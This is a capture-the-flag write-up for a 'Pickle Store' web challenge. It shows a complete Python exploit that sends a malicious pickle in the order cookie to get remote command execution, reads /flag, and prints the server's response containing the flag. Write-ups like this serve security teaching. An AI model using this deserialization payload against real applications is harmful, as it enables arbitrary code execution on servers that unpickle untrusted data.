




The main site of the page where we can select an order:



After selecting our order, we are redirected to `/order`, a cookie is set, and the order info is displayed.





Based on the name of the challenge, I could infer this is a Pickle deserialization challenge. Our order is serialized, set as a cookie, then the cookie is retrieved and deserialized. The output is then displayed.

Write this script:

```py
import pickle
import base64
import requests
import subprocess


class PickleRCE(object):
    def __reduce__(self):
        cmd = ["cat", "/flag"]
        return (subprocess.check_output,(cmd,))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting payload
r = requests.get("https://pickles-web.challenges.ctf.ritsec.club/order", cookies={"order":payload.decode()})  # Send GET request
print(r.text)
```

```sh
$ python3 pickle_store/script.py
<!DOCTYPE html>
<head>
  <title>Pickle Store</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>
  <h1>Here's your order!</h1>
  <h2>b&#39;RS{TH3_L345T_53CUR3_P1CKL3}\n&#39;</h2>
  <a class='button' href='/'>New Order</a>
</body>
```

Flag: `RS{TH3_L345T_53CUR3_P1CKL3}`
